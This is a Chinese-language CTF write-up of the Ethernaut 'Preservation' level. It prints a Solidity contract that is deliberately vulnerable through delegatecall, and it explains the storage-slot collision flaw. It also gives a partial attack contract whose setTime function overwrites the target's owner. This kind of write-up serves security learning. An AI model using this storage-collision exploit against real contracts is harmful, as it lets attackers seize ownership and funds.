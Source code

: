 ## 16 Preservation
这关是对delegatecall漏洞的考查，大家可以看我对delegatecall的另一篇文章[delegatecall杂谈](../Delegatecall.html)
先看代码：
```
/ SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Preservation {

  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) public {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }
 
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```
由于delegatecall的执行环境是当前合约，所以如果要调用的函数内有修改变量的操作，将会导致自身的**对应储存位上**的变量被恶意修改，具体可以参考我的另一篇博客。<br/>
利用这一点，我们可以实现攻击：
```
pragma solidity ^0.6.0;

contract attack {
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;

    function setTime(uint _time) public {
        owner = address(_time);
    }
```
由于在perservation里，owner是在第2个存储位，所以我们这里需要两个变量来"占位",这样就可以做到恶意修改被攻击合约的owner的目的。
